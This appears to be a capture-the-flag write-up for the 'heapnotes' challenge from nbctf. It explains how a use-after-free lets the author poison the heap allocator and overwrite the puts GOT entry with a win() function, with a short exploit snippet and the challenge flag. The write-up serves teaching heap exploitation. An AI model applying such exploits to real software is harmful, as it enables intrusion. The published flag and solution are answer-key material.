

# heapnotes

### Challenge:
##### dont know heap exploitation? read [this](https://ir0nstone.gitbook.io/notes/types/heap).

##### Files: [Dockerfile](Dockerifle), [libc-2.31.so](libc-2.31.so), [heapnotes](heapnotes)
##### Links: ```nc chal.nbctf.com 30172```

### Solution:

This was my first heap challenge ever so it's probably not the cleanest solution.

The challenge is a standard create, read, update, delete notes with a win() function, with no pie/no full relro, so my first plan was to get an arbitrary write and overwrite a got with win.

One of the many vulnerabilties in the program is a Use After Free, if we create a note we can still modify it even after deleting it, this gives us an opportunity to modify a freed chunk, giving us an arbitrary write.

```py
puts = p64(elf.got["puts"])
win = p64(elf.sym["win"])

create("yes0")
create("yes1")
create("yes2")
free(0)
free(1)
free(2)

update(1, puts)

create("yes")
create("yes")
create(win)
```

Here we create 3 notes then free them, we modify the 2nd chunk with with the address we want to write to, then malloc 2 junk values, finally the last malloc will return us our forged chunk, overwriting the put got with the win address. 

Next time puts is called we'll get a shell.

Solve script: [solve.py](solve.py)

Flag: ```nbctf{ur_w3lc0m3_qu454r_5abf2e}``